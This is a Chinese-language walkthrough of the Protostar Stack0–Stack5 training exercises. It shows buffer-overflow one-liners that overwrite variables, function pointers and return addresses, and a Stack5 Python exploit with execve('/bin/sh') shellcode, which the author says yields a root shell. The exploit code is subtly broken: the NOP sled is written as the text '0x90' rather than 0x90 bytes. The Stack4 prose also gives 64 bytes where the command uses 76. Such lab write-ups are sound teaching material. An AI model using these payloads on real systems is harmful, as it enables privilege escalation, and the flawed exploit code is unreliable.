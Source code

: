 # Protostar

## Stack0

先蓋 64 個字

再蓋下去就是 modified (目標)

這題只要讓 modified != 0

所以隨便蓋就好

`python -c "print 'A'*64+'whatever'" | ./stack0`

## Stack1

這題 modified 和 buffer 的相對距離一樣是 64 個字

但是要把 modified 變成 0x61626364 (小心 little endian)

注意 input 是從 argv 參數進來的 (我用 xargs 把 python 產生的字給 stack1 當參數)

`python -c "print 'A'*64+'dcba'" | xargs ./stack1`

## Stack2

這題也一樣

不過 input 變成從 GREENIE(環境變數) 拿值進來

```
GREENIE=$(python -c "print 'A'*64+'\x0a\x0d\x0a\x0d'")
export GREENIE
./stack2
```

## Stack 3

這題要把 fp (function pointer) 改成 win 這個函式的位置

offset (buffer 和 fp 的相對距離) 也一樣是 64 bytes (也就是先蓋 64 個字之後就蓋到目標 fp 了)

先用 gdb 看 win 函式的位置 (在 gdb 下執行 `x win`) -> 0x8048424

`python -c "print 'A'*64+'\x24\x84\x04\x08'" | ./stack3`

## Stack4

這題要把 stack 上的 return address 改成 win 這個函式的位置

offset (buffer 和 return address 的相對距離) 是 76 bytes (也就是先蓋 64 個字之後就蓋到目標 return address 了)

先用 gdb 看 win 函式的位置 (在 gdb 下執行 `x win`) -> 0x80483f4

`python -c "print 'A'*76+'\xf4\x83\x04\x08'" | ./stack4`

## Stack5

這題要把 shellcode 塞到 stack 上執行囉~(興奮XD)

首先正確的蓋到 return_address (讓他 return 到 stack 後面一點的位置)

再建一個 nop 通道讓他滑到執行 shellcode

然後當然也要把 shell code 放到 stack 上

```python
import struct

padding = 'A'*76
return_address = struct.pack("I",0xbffff78c+50)
slide_path = '0x90'*100
shell_code = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80";
print padding + return_address + slide_path + shell_code
```

`(python exploit.py ; cat ) | ./stack5`

拿到 sh 了而且還是 root 的權限 (我們原本是 user 的權限)
